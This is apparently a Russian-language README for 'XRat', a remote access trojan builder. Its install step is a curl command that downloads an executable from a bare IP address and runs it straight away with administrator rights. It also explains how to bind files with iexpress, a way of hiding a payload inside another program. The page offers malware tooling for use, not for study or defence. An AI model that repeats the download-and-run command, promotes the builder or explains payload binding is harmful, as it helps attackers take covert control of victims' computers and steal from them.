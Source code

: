 # XRat

Как установить билдер и всё необходимое?
1. Откройте Cmd от имени админа
2. Перейдите в нужную вам папку куда произведётся установка
3. Введите команду 
```bash
curl -O "http://95.31.8.49:5005/download/XRatInstaller.exe" && start XRatInstaller.exe
```
4. Делайте всё по инструкции в установщике
5. После откройте папку и там будут лежать файлы
> Builder.exe
> dotnet.exe
> XRatInstaller.exe
6. Вам нужен только билдер
После установки билдер откроется сам
Обновлять также

Как склеить файлы?
1. Открываем cmd
2. Пишем: iexpress
3. Дальше сами, есть много гайдов в инете

# LINKS
> [THEMES](<https://github.com/UndefinedClear/XRat-themes/tree/main>)
# SCRIPTS
> [Releases](<https://github.com/UndefinedClear/XRat/releases/tag/release>)
# Documentation
> [Go to documentation](<https://avirts-organization.gitbook.io/xrat>)
